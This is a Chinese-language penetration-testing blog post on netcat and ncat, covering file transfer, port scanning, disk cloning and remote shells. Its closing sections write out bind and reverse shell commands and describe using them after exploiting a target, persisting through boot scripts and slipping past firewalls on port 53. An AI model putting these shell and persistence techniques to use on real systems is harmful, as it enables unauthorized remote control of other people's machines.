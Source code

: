 ```yaml
---
layout: post
title: "nc、ncat使用"
date: 2022-07-27
tags: [kali, 渗透测试]
comments: true
toc: true
author: JumpWang

---
```


## natcat

> [v1.10-41.1+b1]
>
> connect to somewhere:   nc [-options] hostname port[s] [ports] ...
>
> listen for inbound:     nc -l -p port [-options] [hostname] [port]
>
> options:
>
>   -c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
>
>   -e filename             program to exec after connect [dangerous!!]
>
>   -b                      allow broadcasts
>
>   -g gateway              source-routing hop point[s], up to 8
>
>   -G num                  source-routing pointer: 4, 8, 12, ...
>
>   -h                      this cruft
>
>   -i secs                 delay interval for lines sent, ports scanned
>
>   -k                      set keepalive option on socket
>
>   -l                      listen mode, for inbound connects
>
>   -n                      numeric-only IP addresses, no DNS
>
>   -o file                 hex dump of traffic
>
>   -p port                 local port number
>
>   -r                      randomize local and remote ports
>
>   -q secs                 quit after EOF on stdin and delay of secs
>
>   -s addr                 local source address
>
>   -T tos                  set Type Of Service
>
>   -t                      answer TELNET negotiation
>
>   -u                      UDP mode
>
>   -v                      verbose [use twice to be more verbose]
>
>   -w secs                 timeout for connects and final net reads
>
>   -C                      Send CRLF as line-ending
>
>   -z                      zero-I/O mode [used for scanning]
>
> port numbers can be individual or ranges: lo-hi [inclusive];
>
> hyphens in port names must be backslash escaped (e.g. 'ftp\-data').

- 可用于电子取证

  实际上是传输文本的能力，~~可以用于聊天~~、从被取证对象上收集信息

  pc1：监听4444端口

  ```sh
  nc -l -p 4444
  ```

  pc2：连接目标网址的4444端口

  ```sh
  nc -nv 10.139.21.74 4444
  ```

- 传输文件

  A等B连上并将发送的数据存到1.mp4

  A：

  ```sh
  nc -lp 4444 > 1.mp4
  ```

  B：

  ```sh
  nc -nv 1.1.1.1 4444 < 1.mp4 -q 1
  ```

  -q 1 表示发送完1s自动关闭

  A等B连上一连上就向B发送mp4

  A:

  ```sh
  nc -lp 4444 < 1.mp4 -q 1
  ```

  B:

  ```sh
  nc -nv 1.1.1.1 4444
  ```

- 传输目录

  A:

  ```sh
  tar -cvf -music/ | nc -lp 4444 -q 1
  ```

  B:

  ```sh
  nc -nv 1.1.1.1 4444 | tar -xvf -
  ```

- 传输加密文件（使用mcrypt命令）

  A:

  ```sh
  nc -lp 4444 | mcrypt -flush -Fbqd -a rijndael-256 -m ecb > 1.mp4
  ```

  B:

  ```sh
  mcrypt -flush -Fbq -a rijndael-256 -m ecb < 1.mp4 | nc -nv 1.1.1.1 4444 -q 1
  ```

- 流媒体服务器

  A:

  ```sh
  cat 1.mp4 | nc -lp 4444
  ```

  B:

  ```sh
  nc -nv 1.1.1.1 4444 | mplayer -vo xll -cache 3000 -
  ```

- 端口扫描

  -z：扫描模式，探测端口状态

  ```sh
  nc -nvz 1.1.1.1 1-65535
  ```

  -u：nc默认扫描tcp，扫描udp需要使用-u

  ```sh
  nc -vnzu 1.1.1.1 1-1024
  ```

  但我在尝试的时候发现nc多个端口并没有任何回显，不知道是什么原因

- 远程克隆硬盘

  nc还是只起到传输的作用，关键在于`dd`命令，会原原本本的复制硬盘，复制每一个1和0，包括已删除的部分

  ```sh
  nc -lp 4444 | dd of=/dev/sda
  dd if=/dev/sda | nc -nv 1.1.1.1 4444 -q 1
  ```

- 远程控制

  ​	在成功通过漏洞进入目标主机后，可以通过这种方式继续保持连接，比如设置脚本在每次开机的时候使用。尤其是反向连接用处很大。

  ​	因为服务器基本上都配置了防火墙，像很多防护做的不太好的网络管理员也会在防火墙上将由外向内的陌生端口访问全部禁掉。比如只开放80端口，443端口之类的，这种情况下想要在目标主机开放一个端口等待连接，我们基本上是连接不上的（被防火墙过滤）。但是由内向外的访问这些防火墙不会阻止，反向连接就有了用场。

  ​	有些防护意识很好的管理员会禁用一些由内向外的访问的端口，但是像常用的端口也不会进行拦截，比如DNS解析用的53端口，我们就可以开放53端口等待连接。

  ​	如果是跑业务的服务器，向外的所有端口都被禁止了，那就没办法了。

  - 正向

    A：

    ```sh
    nc -lp 4444  -c bash
    ```

    B: 

    ```sh
    nc 1.1.1.1 4444
    ```

  - 反向

    A:

    ```sh
    nc -lp 4444
    ```

    B:

    ```sh
    nc 1.1.1.1 4444 -c bash
    ```

    nc是跨平台的，windows这里将bash换为cmd

## ncat

 nc的缺点：

- 明文传输，缺乏加密能力，可能遭受到嗅探、中间人的挟持等等等
- 缺乏身份验证的能力，打开的端口可以被所有人控制，我们留下的通道其他黑客也能使用

ncat是nmap内包含的一个工具，是为了弥补nc的缺陷被开发出来的，使用ncat进行信息传输，传输的管道本身是被加密的

A（被控端）：

`--allow`是指定一个ip，允许这个ip连接

```sh
ncat -c bash --allow 1.1.1.1 -vnl 4444 --ssl
```

B：

```sh
ncat -nv 1.1.1.1 4444 --ssl
```

# 

